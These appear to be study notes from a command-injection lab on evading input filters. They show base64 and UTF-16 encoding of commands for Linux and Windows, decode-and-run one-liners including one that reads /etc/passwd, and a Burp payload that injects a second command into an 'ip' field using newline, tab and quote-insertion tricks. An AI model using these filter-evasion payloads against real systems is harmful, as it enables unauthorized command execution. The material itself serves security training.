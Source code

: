 ### Encoded Commands
`base64` (for b64 encoding) or `xxd` (for hex encoding)

#### base64 Encoded Command - Linux
```Shell
echo -n 'cat /etc/passwd | grep 33' | base64
```

#### Command for decoding the encoded string
```Shell
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
*Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.*

![[Pasted image 20230209103321.png]]
Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like sh for command execution and openssl for b64 decoding, or xxd for hex decoding.

#### Base64 Encoded Command - Windows
```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

#### Base64 Encoded Command - Linux
```Shell
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

#### Decode base64 Command and execute it with a PowerShell sub-shell (`iex "$()"`) - Windows
```PowerShell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

[Additional Techniques in PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)

***LAB:*

On Kali:
```Shell
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | iconv -f utf-8 -t utf-16le | base64
```
Output: `ZgBpAG4AZAAgAC8AdQBzAHIALwBzAGgAYQByAGUALwAgAHwAIABnAHIAZQBwACAAcgBvAG8AdAAgAHwAIABnAHIAZQBwACAAbQB5AHMAcQBsACAAfAAgAHQAYQBpAGwAIAAtAG4AIAAxAA==`

In Burp:
`ip=10.10.16.13%0ab'a's'h'<<<$('b'a's'e'6'4%09-d<<<ZgBpAG4AZAAgAC8AdQBzAHIALwBzAGgAYQByAGUALwAgAHwAIABnAHIAZQBwACAAcgBvAG8AdAAgAHwAIABnAHIAZQBwACAAbQB5AHMAcQBsACAAfAAgAHQAYQBpAGwAIAAtAG4AIAAxAA==)`

*Used `%0a` to break command, `%09` for spaces, and character insertion for `bash` and `base64`*`
![[advanced bypass 1.png]]
